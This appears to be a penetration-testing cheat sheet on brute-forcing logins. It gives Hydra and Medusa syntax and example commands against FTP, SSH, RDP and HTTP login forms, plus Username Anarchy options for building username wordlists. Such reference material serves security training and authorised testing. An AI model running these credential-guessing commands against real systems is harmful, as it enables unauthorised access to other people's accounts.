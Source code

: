 ## Brute-Forcing Tools

### Hydra

- Fast network login cracker
- Supports numerous protocols
- Uses parallel connections for speed
- Flexible and adaptable
- Relatively easy to use

Code: bash

```bash
hydra [-l LOGIN|-L FILE] [-p PASS|-P FILE] [-C FILE] -m MODULE [service://server[:PORT][/OPT]]
```

|Hydra Service|Service/Protocol|Description|Example Command|
|---|---|---|---|
|ftp|File Transfer Protocol (FTP)|Used to brute-force login credentials for FTP services, commonly used to transfer files over a network.|`hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100`|
|ssh|Secure Shell (SSH)|Targets SSH services to brute-force credentials, commonly used for secure remote login to systems.|`hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100`|
|http-get/post|HTTP Web Services|Used to brute-force login credentials for HTTP web login forms using either GET or POST requests.|`hydra -l admin -P /path/to/password_list.txt 127.0.0.1 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"`|

### Medusa

- Fast, massively parallel, modular login brute-forcer
- Supports a wide array of services

Code: bash

```bash
medusa [-h host|-H file] [-u username|-U file] [-p password|-P file] [-C file] -M module [OPT]
```

|Medusa Module|Service/Protocol|Description|Example Command|
|---|---|---|---|
|ssh|Secure Shell (SSH)|Brute force SSH login for the `admin` user.|`medusa -h 192.168.1.100 -u admin -P passwords.txt -M ssh`|
|ftp|File Transfer Protocol (FTP)|Brute force FTP with multiple usernames and passwords using 5 parallel threads.|`medusa -h 192.168.1.100 -U users.txt -P passwords.txt -M ftp -t 5`|
|rdp|Remote Desktop Protocol (RDP)|Brute force RDP login.|`medusa -h 192.168.1.100 -u admin -P passwords.txt -M rdp`|
|http-get|HTTP Web Services|Brute force HTTP Basic Authentication.|`medusa -h www.example.com -U users.txt -P passwords.txt -M http -m GET`|
|ssh|Secure Shell (SSH)|Stop after the first valid SSH login is found.|`medusa -h 192.168.1.100 -u admin -P passwords.txt -M ssh -f`|

### Custom Wordlists

Username Anarchy generates potential usernames based on a target's name.

|Command|Description|
|---|---|
|`username-anarchy Jane Smith`|Generate possible usernames for "Jane Smith"|
|`username-anarchy -i names.txt`|Use a file (`names.txt`) with names for input. Can handle space, CSV, or TAB delimited names.|
|`username-anarchy -a --country us`|Automatically generate usernames using common names from the US dataset.|
|`username-anarchy -l`|List available username format plugins.|
|`username-anarchy -f format1,format2`|Use specific format plugins for username generation (comma-separated).|
|`username-anarchy -@ example.com`|Append `@example.com` as a suffix to each username.|
|`username-anarchy --case-insensitive`|Generate usernames in case-insensitive (lowercase) format.|
